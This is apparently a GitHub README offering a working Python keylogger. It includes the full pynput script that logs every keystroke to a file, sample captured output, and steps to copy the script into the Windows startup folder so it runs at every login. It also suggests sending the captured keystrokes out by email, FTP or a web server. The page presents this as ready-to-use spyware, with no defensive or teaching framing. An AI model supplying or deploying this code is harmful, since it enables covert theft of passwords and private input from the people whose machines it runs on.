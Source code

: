 # python3_Keylogger
python3 keylogger

1) install python 3 then install pynput with following command
> python -m pip install pynput
2) output was automatically saved on script directory that was running <br>
3) Use Shell as follow<br>
  3-1) win+R<br>
  3-2) paste shell:startup then enter<br>
  3-3) copy keylogger.py in folder that apeared before<br>
  3-4) change dir to different locatio<br>n

> you can use SMTP Email or FTP Client or Web Server to get KeyStroke
> Good Luck! (mrt.mycloud@gmail.com)

```python
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```
output as follow
```C#
2021-04-10 16:46:43,841: Key.backspace
2021-04-10 16:46:44,298: 'p'
2021-04-10 16:46:44,578: 'y'
2021-04-10 16:46:44,826: 't'
2021-04-10 16:46:44,922: 'h'
2021-04-10 16:46:45,154: 'o'
2021-04-10 16:46:45,354: 'n'
2021-04-10 16:46:45,898: <99>
2021-04-10 16:46:47,178: <193>
2021-04-10 16:46:48,114: Key.shift_r
2021-04-10 16:46:48,474: '+'
2021-04-10 16:46:49,298: Key.backspace
2021-04-10 16:46:50,346: Key.shift_r
```
